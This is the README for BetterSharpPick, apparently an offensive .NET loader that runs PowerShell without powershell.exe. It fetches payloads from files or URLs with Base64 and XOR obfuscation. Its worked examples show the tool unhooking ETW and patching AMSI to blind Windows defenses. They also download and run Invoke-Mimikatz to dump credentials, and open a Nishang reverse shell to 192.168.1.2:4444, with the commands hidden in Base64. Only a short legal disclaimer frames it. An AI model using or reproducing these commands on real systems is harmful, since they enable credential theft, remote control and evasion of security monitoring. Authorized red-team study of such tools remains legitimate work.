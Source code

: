 # BetterSharpPick

BetterSharpPick is a .NET tool that runs PowerShell code **without calling `powershell.exe` directly**. 

> Legal & Ethical Use
> 
> 
> Use only on systems you own or are explicitly authorized to test. Unauthorized use is illegal. You are responsible for complying with all laws and policies.
> 

## Features

- Execute payloads from a **local file** or **URL** (`path`)
- Execute **inline PowerShell** (`c`)
- **Scoped Base64 decoding** with `b64` (applies only to the next option you put it in front of)
- **Single-byte XOR decoding for file/URL payloads only** (`xor <0-255>`)
- Optional TLS protocol configuration

## Usage

```bash
BetterSharpPick.exe [options]
```

### Options

- `path <path|url>`
    
    Path or URL of the PowerShell payload. If `-xor` is provided, XOR decoding is applied **only** to this file/URL content.
    
- `c <command>`
    
    Inline PowerShell code to execute.
    
- `-arg <string>`
    
    Argument(s) to pass through to the payload/command. Repeatable.
    
- `b64` *(scoped)*
    
    Indicates that the **next option’s value** is Base64-encoded and must be decoded.
    
    Put `-b64` **immediately before** each option whose value is Base64.
    
- `xor <0-255>`
    
    Single decimal byte key. **Applies only to `-path` payloads** (files/URLs). **Does not** apply to `-c` or `-arg`.

- `raw`
    
    Treat -path payload as raw (no Base64/XOR).

### Decoding rules

- **Scope of `b64`:**
    - `b64` affects **only the option right after it** (and that option’s single value).
    
    If you need multiple values decoded, repeat `-b64` before each one.
    
- **Scope of `xor`:**
    - `xor` affects **only** the payload read via `path` (file/URL). It does **not** touch `c` or `-arg`.

- **Scope of `raw`:**
    - `raw` guarantees the -path content is treated as raw; no Base64/XOR is applied.

- **Order when both apply to `path`:**
    
    If you place `-b64` **and** also supply `-xor`, decoding proceeds as: **Base64 decode → XOR decode** of the payload bytes.
    

## Examples (safe, illustrative)

Run a local payload:

    BetterSharpPick.exe -path .\script.ps1

Run a payload from URL:

    BetterSharpPick.exe -path https://example.com/payload.ps1

Run an inline command:

    BetterSharpPick.exe -c "Get-Process | Select-Object -First 5"

Run mimikatz:

    BetterSharpPick.exe -b64 -path aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NhbXJhdGFzaG9rL25pc2hhbmcvcmVmcy9oZWFkcy9tYXN0ZXIvR2F0aGVyL0ludm9rZS1NaW1pa2F0ei5wczE= -arg     SW52b2tlLU1pbWlrYXR6IC1Db21tYW5kICJjb2ZmZWUgZXhpdCI= -raw
    [+] ~MustafaNafizDurukan #BetterSharpPick
    [+] URL/PATH : https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Gather/Invoke-Mimikatz.ps1
    [+] Argument : Invoke-Mimikatz -Command "coffee exit"
    [+] Successfully unhooked ETW!
    [+] Successfully patched AMSI!
    
      .#####.   mimikatz 2.2.0 (x64) #19041 Jul 24 2021 11:00:11
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
    
    mimikatz(powershell) # coffee
    
        ( (
         ) )
      .______.
      |      |]
      \      /
       `----'
    
    mimikatz(powershell) # exit
    Bye!

Base64-encoded **inline** command (scope `-b64` to `-c`):

    BetterSharpPick.exe -b64 -c V3JpdGUtSG9zdCAnSGVsbG8gV29ybGQn
    [+] ~MustafaNafizDurukan #BetterSharpPick
    [+] Command : Write-Host 'Hello World'
    [+] Successfully unhooked ETW!
    [+] Successfully patched AMSI!
    Hello World

Base64-encoded **argument** (scope `-b64` to each `-arg` you want decoded):

    BetterSharpPick.exe -b64 -path aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3NhbXJhdGFzaG9rL25pc2hhbmcvbWFzdGVyL1NoZWxscy9JbnZva2UtUG93ZXJTaGVsbFRjcC5wczE= -arg SW52b2tlLVBvd2VyU2hlbGxUY3AgLVJldmVyc2UgLUlQQWRkcmVzcyAxOTIuMTY4LjEuMiAtUG9ydCA0NDQ0 -raw
    [+] ~MustafaNafizDurukan #BetterSharpPick
    [+] URL/PATH : https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
    [+] Argument : Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.2 -Port 4444
    [+] Successfully unhooked ETW!
    [+] Successfully patched AMSI!

Base64 on the **payload** + XOR on the **payload** (XOR applies only to `-path`):

    # -b64 only scopes to -path; XOR applies to the decoded file/URL payload
    BetterSharpPick.exe -xor 140 -b64 -path aHR0cHM6Ly9leGFtcGxlLmNvbS9wYXlsb2FkLnBzMQ==

No Base64 anywhere if `-b64` is not placed before an option:

    BetterSharpPick.exe -path .\plain.ps1 -arg simple

## Built-in Help (CLI)

```
USAGE:
  BetterSharpPick [-xor <0-255>] [-path <file-or-url>] [-c <text>] [-arg <string>] [-b64] [-raw]

DESCRIPTION:
  -path <value>   : Payload file path or URL.
  -c <value>      : Inline PowerShell code.
  -arg <string>   : Argument to pass (repeatable).

  -b64            : Scoped base64. Applies ONLY to the NEXT option’s value.
                    Put -b64 directly before -path, -c, or -arg if that value is base64-encoded.
                    If -b64 is not used in front of an option, no base64 is expected for that option.

  -xor <0-255>    : Single decimal byte key. Applies ONLY to payloads from -path (file/URL).
                    Does NOT apply to -c or -arg.
                    If used together with -b64 (scoped to -path), decoding order is: Base64 → XOR.
  
  -raw            : Affects only the payload content read via -path.
                    Treat the -path payload as RAW text; Do NOT apply Base64/XOR.
                    Does not affect -c or -arg.

EXAMPLES:
  BetterSharpPick -path https://example.com/file.ps1
  BetterSharpPick -b64 -c V3JpdGUtSG9zdCAnSGVsbG8n
  BetterSharpPick -b64 -arg UGFyYW0x -b64 -arg UGFyYW0y
  BetterSharpPick -xor 140 -b64 -path aHR0cHM6Ly9leGFtcGxlLmNvbS9maWxlLnBzMQ==
```

## License

Released under the **BSD 3-Clause License**.

## Credits

Inspired by and adapted from [TheKevinWang/SharpPick](https://github.com/TheKevinWang/SharpPick).